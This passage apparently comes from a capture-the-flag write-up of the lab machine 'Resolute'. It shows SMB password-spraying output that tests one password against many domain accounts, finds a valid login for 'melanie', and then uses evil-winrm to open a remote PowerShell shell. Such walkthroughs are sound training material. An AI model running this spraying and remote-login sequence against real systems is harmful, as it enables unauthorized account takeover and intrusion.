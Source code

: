 ```terminal
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE                                               
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE                                               
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE                                                  
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
SMB         10.10.10.169    445    RESOLUTE         [+] Enumerated shares
SMB         10.10.10.169    445    RESOLUTE         Share           Permissions     Remark
SMB         10.10.10.169    445    RESOLUTE         -----           -----------     ------
SMB         10.10.10.169    445    RESOLUTE         ADMIN$                          Remote Admin
SMB         10.10.10.169    445    RESOLUTE         C$                              Default share
SMB         10.10.10.169    445    RESOLUTE         IPC$                            Remote IPC
SMB         10.10.10.169    445    RESOLUTE         NETLOGON        READ            Logon server share 
SMB         10.10.10.169    445    RESOLUTE         SYSVOL          READ            Logon server share 
```

Great! The password works for user `melanie`.

We managed to list shares but none the shares are really useful to us.

## **Foothold**

Now let's try to login to the target via `winrm` using `evil-winrm`.

```terminal
$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'                                                                                             1 ⨯

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> whoami
megabank\melanie
```
